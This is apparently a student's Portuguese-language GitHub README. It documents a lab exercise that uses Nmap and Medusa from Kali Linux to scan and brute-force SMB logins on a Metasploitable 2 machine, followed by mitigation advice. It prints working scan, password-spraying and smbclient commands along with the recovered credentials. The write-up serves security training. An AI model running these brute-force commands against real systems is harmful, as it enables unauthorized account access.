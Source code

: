 # 🛡️ Projeto: Simulação de Ataque de Força Bruta com Medusa e Kali Linux

## 🎯 Objetivo
Este projeto tem como objetivo demonstrar, em ambiente controlado, a execução de um ataque de força bruta utilizando a ferramenta **Medusa** no **Kali Linux**, direcionado a serviços vulneráveis do **Metasploitable 2**, simulando um cenário real de auditoria de segurança.  
Ao final, também são apresentadas recomendações de mitigação.

---

## 🧩 Ambiente de Laboratório

| Sistema | Função | IP | Ferramentas |
|----------|--------|----|-------------|
| Kali Linux | Atacante | 192.168.15.77 | Nmap, Medusa, smbclient |
| Metasploitable 2 | Alvo | 192.168.15.87 | Serviços vulneráveis (FTP, SSH, SMB, etc.) |

**Rede:** Host-Only (VirtualBox)  
**Objetivo:** Simular ataques controlados e documentar os resultados.

---

## 🔍 Etapa 1 – Varredura de Rede com Nmap

O primeiro passo foi identificar os serviços ativos no host alvo:

```bash
sudo nmap -sS 192.168.15.87
```

Resultado principal:
```
21/tcp  open  ftp
22/tcp  open  ssh
23/tcp  open  telnet
25/tcp  open  smtp
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

📸 **Print:** `/images/nmap_scan.png
---

## 🔎 Etapa 2 – Detecção Detalhada de Serviços

Para obter mais detalhes sobre as versões dos serviços e banners, foi usado:

```bash
sudo nmap -p21-400 -A 192.168.15.87
```

O comando identificou o serviço **vsFTPd 2.3.4** (conhecido por vulnerabilidades antigas) e o **OpenSSH 4.7p1**.

📸 **Print:** `/images/nmap_detalhado.png`

---

## 💣 Etapa 3 – Ataque de Força Bruta SMB (Password Spraying)

Com base nos serviços expostos, foi escolhido o **SMB (porta 445)** para o ataque.  
Foram criados dois arquivos simples:

**Arquivo `smb_users.txt`:**
```
msfadmin
service
user
```

**Arquivo `senhas_spray.txt`:**
```
password
123456
Welcome123
msfadmin
```

Execução do ataque:

```bash
medusa -h 192.168.15.87 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

✅ Resultado:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.15.87 User: msfadmin Password: msfadmin [SUCCESS]
```

📸 **Print:** `/images/medusa_smb_success.png`

---

## 📂 Etapa 4 – Validação do Acesso SMB

Após encontrar as credenciais válidas, foi feita a conexão ao compartilhamento SMB:

```bash
smbclient -L //192.168.15.87 -U msfadmin
```

Resultado:
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
ADMIN$          IPC       IPC Service (metasploitable server)
msfadmin        Disk      Home Directories
```

📸 **Print:** `/images/smbclient_list.png`

---

## 🧠 Conclusão

O teste simulou com sucesso um ataque de força bruta em ambiente controlado, permitindo a obtenção de credenciais válidas.  
Essa demonstração mostra como senhas fracas e repetidas são facilmente exploráveis.

---

## 🛡️ Recomendações de Mitigação

- Aplicar **políticas de senha forte** (mínimo de 10 caracteres, complexidade e expiração).  
- Implementar **bloqueio de conta** após várias tentativas falhas.  
- Monitorar logs de autenticação e configurar alertas de **intrusão**.  
- Desabilitar serviços desnecessários (como Telnet ou FTP).  
- Utilizar **autenticação multifator (MFA)** sempre que possível.

---

## 📚 Ferramentas Utilizadas

- **Kali Linux 2025.2**
- **Medusa v2.3**
- **Nmap 7.95**
- **Metasploitable 2**
- **smbclient**

---

## 🖼️ Estrutura do Repositório

```
📂 kali-medusa-bruteforce
├── README.md
├── smb_users.txt
├── senhas_spray.txt
└── /images
    ├── nmap_scan.png
    ├── nmap_detalhado.png
    ├── medusa_smb_success.png
    └── smbclient_list.png
```

---

## 👨‍💻 Autor

**Vitor Lopes Fernandes de Souza**  
Estudante de TADS e entusiasta em Cibersegurança  
🔗 [GitHub Profile](https://github.com/)
